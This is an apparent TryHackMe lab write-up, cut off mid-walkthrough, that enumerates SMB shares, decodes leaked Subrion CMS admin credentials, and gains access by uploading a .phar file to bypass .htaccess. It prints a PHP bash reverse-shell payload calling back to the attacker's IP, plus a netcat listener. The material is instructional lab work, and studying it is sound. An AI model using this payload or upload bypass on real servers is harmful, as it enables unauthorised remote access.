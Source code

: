 # Tech_Supp0rt: 1 - TryHackMe Writeup

## Description
Tech_Supp0rt: 1 is a beginner-friendly box on TryHackMe designed to simulate a real-world technical support scenario. The challenge involves identifying vulnerabilities, exploiting misconfigurations, and escalating privileges to gain root access. This writeup documents the step-by-step approach taken to solve the machine, focusing on practical techniques and learning outcomes.

**Note:** Metasploit was not used during the solution of this machine. All exploitation and enumeration were performed manually to encourage deeper understanding of the underlying processes.

---

## Enumeration
For enumeration I used a simple nmap scan with the key -A (which includes -sC - simple scripts, -sV - port and services scan, -O - OS detection):

```bash
nmap -A 10.201.31.100
```

![Nmap Scan](assets/nmap-scan.png)

The scan has identified 4 open ports:
- 22: SSH
- 80: HTTP
- 139: Legacy SMB file sharing
- 445: Current standard for SMB file sharing

The detailed nmap scan also revealed that the security for Samba is relatively weak and can be accessed in guest mode (no authenticaion), so I will start with searching through the samba shared files. For this we will use this smbclient command:

```bash
smbclient -L //10.201.31.100/ -N
```

This command lists all the available shares (-L) on the target as well as supresses the password prompt, since we already know that a connection can be established with a guest account:


![Samba Scan](assets/smb-scan.png)

The websrv share is exactly what we are looking for here. Lets connect to the share and inspect what it contains. For this purpose I used the same command, but removed the -L key to simply connect to the share instead of listing:

```bash
smbclient //10.201.31.100/websvr -N
```

![Samba Share](assets/smb-share.png)


And there it is! Using simple commands - ls and get, we have spotted the file enter.txt and downloaded it for later inspection.

Let us take a look at what is inside the file we have just downloaded.

![Enter.txt File](assets/enter.txt.png)

The samba share is cleared now. Now we will see what we have on the HTTP front, but first lets assess the txt file. The file describes 'goals' for the admin, they include:
- Setting up a fake popup website
- Fix the subrion from the /panel, as there is an issue with the /subrion
- Edit the wordpress webiste

This is all very important information. The admin gave us the location to one of the panels - the subrion panels. Under that he also included the credentials for subrion:
- **admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk**

However it also states the credentials were 'cooked with a magical formula', which probably implies encoding of some kind. Upon a first look we can conclude that the key is not base64 or base32 encoded, since they typically contain a signature '=' or '==' sign at the end.

After running multiple tests on the string and searching for a good decypher tool, I found this one:
- https://gchq.github.io/CyberChef

This tool can be used to encode/decode various inputs such as base64, base32, hexdump and many more. However, the most interesting tool on this website is 'Magic', which really connects to the hint left to us by the admin - "Cooked with a **magic** formula".

Using that tool on the key we found, gives us the following result:

![CyberChef](assets/CyberChef.png)


So here are the credentials for the Subrion panel:
- **Username: admin**
- **Password: Scam2021**

---

## Gaining Access

Now, that we have the credentials for the Subrion panel, let us go and see the web page for ourselves. First lets head to http://10.201.31.100/. 

We are greeted with the defualt apache index.html page:

![Apache Page](assets/apache-page.png)

Now lets try and view the subrion using /subrion:

![Subrion Issue](assets/subrion-issue.png)

I assume this is the issue the admin was talking about. The CMS is misconfigured which leads to a redirection of the home page.

Since we already know that a subrion panel exists and that it should not have the smae issue, lets visit that page and use the credentials we have already acquired:

![Subrion Logoin](assets/subrion-login.png)


![Subrion Panel](assets/subrion-panel.png)

Now, if we go onto the System ---> System on the left dock we can see that the site url is misconfigured:

![Subrion Panel](assets/subrion-misconfig.png)

Fix the issue by inserting the correct IP address instead of the faulty one. This will be crucial for latter steps.

The issue with redirection is now fixed, lets proceed.

Now we have to find a way to plant a reverse shell to get ahold of the system. There are mutliple ways of achieving that:
- Metasploit framework - can quickly discover a vulnerability and exploit it.
- Finding the vulnerability manually, but using a pre-written exploit - finding the vulnerability in the web and using a script written to exploit that vulnerability.
- Manually finding the vulnerability and exploiting it.

The method we are going to be using is the last one. For simple CTFs like the one we are doing, performing a completely manual pentest seems to me like a much better option for self-development.

Uploading a reverse shell and launching it could be done in two ways on Subrion. First way is creating a new php page with a code instructing it to send a interactive bash shell to your session (IP + port). I have failed to achieve the result this way, since Subrion was really hesitant about importing php code onto a page, even simple obfuscation did not work. 

The second way would be to upload a php script from personal files onto the CMS and using the /uploads directory to open it up. Here things are also a little tricky, most likely due to the Apache configuration. I believe the file .htaccess is blocking any php files from running, or it could be the Subrion itself. Nevertheless, while trying to find a way to overcome this issue, I found this on one of descriptions of Subrion CMS vulnerabilities:

**/panel/uploads in Subrion CMS 4.2.1 allows remote attackers to execute arbitrary PHP code via a .pht or .phar file, because the .htaccess file omits these.**

This confirmed my deduction regarding .htaccess block and also gave us a way to create and plant the php code into the uploads directory and afterwards successfully launch it.

Here is what we are going to do:

Create a simple php file with the following code, you can use the following:

```bash
<?php
system("bash -c 'bash -i >& /dev/tcp/YOUR_IP/PORT 0>&1'");
?>
```

I am going to use my ip plus port 7777 since it is very rarely occupied.
Name your file something like shell.phar or shell.pht (.phar worked perfectly for me).

![shell.phar file](assets/shell-file.jpg)

After creating the file, go to Content ---> Uploads in Subrion Panel. You should get a page which looks like this:

![Subrion Uploads](assets/subrion-uploads.png)

On the top panel, there is a button 'Upload files' or just drag-and-drop the reverse shell you have just created:

![Shell Uploaded](assets/shell-uploaded.png)

Nice! Now, before launching the shell, lets create a session on our end that awaits incoming connections. We can accomplish that with the following netcat command:

```bash
nc -nlvp 7777
```

The last parameter is the port number that you have used when creating the reverse shell, as I have previously stated, I chose 7777.

![NetCat Listen](assets/netcat-listen.png)

Now that our devices is awaiting a connection attempt, lets launch the reverse shell we have planted:

Go to the directory /subrion/uploads/NAME_OF_THE_SHELL in the browser. For example, the link I will use to start the reverse shell is:

```bash
http://10.201.31.100/subrion/uploads/shell.phar
```

![Shell URL](assets/shell-url.png)

And this is the result we get on our device:

![Connection Established](assets/nc-connection.png)

We have successfully deployed a reverse shell, now we need to perform an LPE (Local Privilege Escalation) to gain access to root.txt.


Lets look at what we have on the server:

![Listing Server](assets/listing-server.png)


